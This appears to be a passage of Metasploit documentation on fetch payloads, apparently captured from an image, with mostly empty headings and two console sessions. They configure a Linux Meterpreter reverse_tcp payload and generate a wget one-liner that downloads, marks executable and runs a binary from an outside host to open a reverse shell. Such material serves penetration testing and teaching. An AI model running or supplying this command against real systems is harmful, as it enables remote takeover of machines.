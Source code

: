 # Fetch Payloads
## What Are Fetch Payloads?
## Terminology
## Organization
## A Simple Stand-Alone Example
First, let's look at the payload in isolation:
```msf
msf6 exploit(multi/ssh/sshexec) > use payload/cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > show options

Module options (payload/cmd/linux/http/x64/meterpreter/reverse_tcp):

Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
FETCH_FILENAME      YXeSdwsoEfOH     no        Name to use on remote system when storing payload
FETCH_SRVHOST       0.0.0.0          yes       Local IP to use for serving payload
FETCH_SRVPORT       8080             yes       Local port to use for serving payload
FETCH_URIPATH                        no        Local URI to use for serving payload
FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload
LHOST                                yes       The listen address (an interface may be specified)
LPORT               4444             yes       The listen port


View the full module info with the info, or info -d command.

msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```

### Options
### Generating the Fetch Payload

```msf
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVPORT 8000
FETCH_SRVPORT => 8000
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LPORT 4567
LPORT => 4567
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > generate -f raw
wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```
